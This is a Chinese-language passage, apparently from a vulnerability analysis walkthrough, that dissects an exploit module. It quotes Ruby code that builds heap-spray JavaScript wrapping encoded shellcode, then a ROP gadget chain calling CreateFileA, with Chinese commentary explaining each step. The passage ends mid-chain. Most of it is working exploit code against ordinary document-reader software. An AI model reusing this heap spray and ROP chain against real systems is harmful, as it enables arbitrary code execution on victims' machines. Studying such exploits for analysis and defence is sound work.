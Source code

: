 ```ruby

        payload_buf = ''
        payload_buf << stack_data
        #* 可以发现 shellcode 紧跟在 stack_data 后
        payload_buf << encoded_payload

        escaped_payload = Rex::Text.to_unescape(payload_buf)

        js = %Q|
var #{var_unescape} = unescape;
var #{var_shellcode} = #{var_unescape}( '#{escaped_payload}' );
var #{var_c} = #{var_unescape}( "%" + "u" + "0" + "c" + "0" + "c" + "%u" + "0" + "c" + "0" + "c" );
while (#{var_c}.length + 20 + 8 < #{var_s}) #{var_c}+=#{var_c};
#{var_b} = #{var_c}.substring(0, (0x0c0c-0x24)/2);
#{var_b} += #{var_shellcode};
#{var_b} += #{var_c};
#{var_d} = #{var_b}.substring(0, #{var_s}/2);
while(#{var_d}.length < 0x80000) #{var_d} += #{var_d};
#{var_3} = #{var_d}.substring(0, 0x80000 - (0x1020-0x08) / 2);
var #{var_4} = new Array();
for (#{var_i}=0;#{var_i}<0x1f0;#{var_i}++) #{var_4}[#{var_i}]=#{var_3}+"s";
|

        js
    end
```

make_js 需要接受一段加密后的 shellcode 作为参数，这段 shellcode 将会经过 make_js 函数的处理后被执行。可以发现 exp 在讲 shellcode 存入 payload_buf 前，先向 payload_buf 中存入了 stack_data 内的 payload，对其进行审计

```asm
0x41414141,   # unused 用于补齐堆块内容长度占用的 4B
0x4a8063a5,   # pop ecx / ret
0x4a8a0000,   # becomes ecx

0x4a802196,   # mov [ecx],eax / ret # save whatever eax starts as

0x4a801f90,   # pop eax / ret
0x4a84903c,   # becomes eax (import for CreateFileA)

# -- call CreateFileA
0x4a80b692,   # jmp [eax]

0x4a801064,   # ret

0x4a8522c8,   # first arg to CreateFileA (lpFileName / pointer to "iso88591")
0x10000000,   # second arg  - dwDesiredAccess
0x00000000,   # third arg   - dwShareMode
0x00000000,   # fourth arg  - lpSecurityAttributes
0x00000002,   # fifth arg   - dwCreationDisposition
0x00000102,   # sixth arg   - dwFlagsAndAttributes
0x00000000,   # seventh arg - hTemplateFile

0x4a8063a5,   # pop ecx / ret
0x4a801064,   # becomes ecx

0x4a842db2,   # xchg eax,edi / ret

0x4a802ab1,   # pop ebx / ret
0x00000008,   # becomes ebx - offset to modify

#
# This points at a neat-o block of code that ... TBD
#
```